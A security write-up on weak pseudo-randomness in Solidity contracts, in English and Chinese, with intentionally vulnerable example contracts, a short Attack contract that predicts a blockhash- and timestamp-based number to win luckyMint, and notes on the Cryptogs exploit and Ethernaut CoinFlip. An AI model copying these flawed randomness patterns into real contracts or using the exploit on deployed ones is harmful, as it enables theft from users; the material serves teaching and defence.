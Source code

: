 ```yaml
---
title: WeakRandomnes
---
```


# Description

Weak PRNG due to a modulo on block.timestamp , now or blickhash.

These can be infulences by miners to some extent so they shoude be avoided.

Many Dapp are using Randomness , such as NFT , GameFi.

But due to everything on BlockChain are public and deterministic . Solidity does not have function to generate RandomNumbers. So many Developers are using some hash function to generate RandomNumbers like blockhash() and keccak256().

# Examples

## E-1

### Code

```solidity
 contract BadRandomness is ERC721 {
    uint256 totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("", ""){}

    // 铸造函数：当输入的 luckyNumber 等于随机数时才能mint
    function luckyMint(uint256 luckyNumber) external {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // get bad random number
        require(randomNumber == luckyNumber, "Better luck next time!");

        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

### Observation

with quickly look , we can find the luckMint() take a number as the argument ，if `randomNumber == luckyNumber`  , users can mint `NFT`.

Because it use `blockhash` and `block.timestamp` . Attacker can easily guess the LuckNumber.

### Attack

```solidity
contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // Prev calculate
        uint256 luckyNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Attack
        nftAddr.luckyMint(luckyNumber);
    }
}
```

## E-2 TimeManipulation

The block timestamp is a uint64 value contained in the Ethereum block header, representing the UTC timestamp (in seconds) when the block was created. Before The Merge, Ethereum adjusted block difficulty based on computing power, so the block time was variable, averaging 14.5 seconds per block, and miners could manipulate the block time. After The Merge, the interval was changed to a fixed 12 seconds per block, and validators were no longer able to manipulate the block time.

In Solidity, developers can access the current block's timestamp by using the global variable `block.timestamp`, which is a uint256 type.

### Code

```solidity
contract TimeMnipulation is ERC721 {
    uint256 totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("", ""){}

    // 铸造函数：当区块时间能被7整除时才能mint成功
    function luckyMint() external returns(bool success){
        if(block.timestamp % 170 == 0){
            _mint(msg.sender, totalSupply); // mint
            totalSupply++;
            success = true;
        }else{
            success = false;
        }
    }
}
```

## E-3

```solidity
function randomNumber() public view returns (uint) {
    return uint(keccak256(abi.encodePacked(block.difficulty))) % 10;
}
```

## E-4 Real Attack on Cryptogs

[Cryptogs](https://cryptogs.io/) is the game of pogs on the Ethereum blockchain. It is a kind of game of slap-match. This game generates random numbers using `blockhash(uint blockNumber)` to decide the winner. In Solidity, `blockhash(uint blockNumber)` function returns ‘0’ when `blockNumber` is older than 256 blocks from the current block(`block.number`). Cryptogs doesn’t check the `blockNumber` whether it is too old or not, so attackers can predict the random numbers and always win.

Code：

There are two functions generating random numbers: `endCoinFlip()` and `throwSlammer()`. Both functions required preliminary functions: `startCoinFlip()` and `raiseSlammer()`.

First, let’s check `startCoinFlip()` and `endCoinFlip()`. The two functions decide who goes first.

![alt text](Untitled.png)

[Attack on Pseudo-random number generator(PRNG) used in Cryptogs, an Ethereum (CVE-2018–14715)](https://medium.com/coinmonks/attack-on-pseudo-random-number-generator-prng-used-in-cryptogs-an-ethereum-cve-2018-14715-f63a51ac2eb9)

## E-6 Ethernaut::CoinFlip

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

我们只需要实现和CoinFlip中一样的逻辑就可以了，因为在整个过程都发生在一个tx中所以 `block.hash` 和 `block.number` 是相同的。

# Mitigation

- 我们通常使用预言机项目提供的链下随机数来预防这类漏洞。
- 在合并（The Merge）之前，以太坊矿工可以操纵区块时间，如果抽奖合约的伪随机数依赖于区块时间，则可能被攻击。合并之后，以太坊改为固定 12s 一个区块，并且验证节点不能操纵区块时间。因此这类攻击不会在以太坊上发生，但仍可能在其他公链中遇到。
- 1. Utilize decentralized randomness beacons like Chainlink’s VRF.